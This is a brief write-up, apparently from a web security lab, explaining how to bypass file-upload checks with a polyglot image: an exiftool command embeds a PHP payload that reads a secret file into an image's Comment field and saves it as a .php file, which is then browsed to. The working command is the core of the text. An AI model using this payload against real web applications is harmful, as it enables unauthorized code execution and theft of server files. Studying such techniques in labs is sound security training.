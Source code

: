 # Summary

Another way of uploading php maliciuos file is using polygot web shells. Normal photo but with malicious code.

1) Create polgot photo with exiftool contains php malicous code in comment with following command:<br>
```bash
exiftool -Comment="<?php echo 'START' . file_get_contents('/home/carlos/secret') . ' END'; ?>" photo.png -o polygot.php
```
This adds your PHP payload to the image's Comment field, then saves the image with a `.php` extension
2) Then browse to location of file.
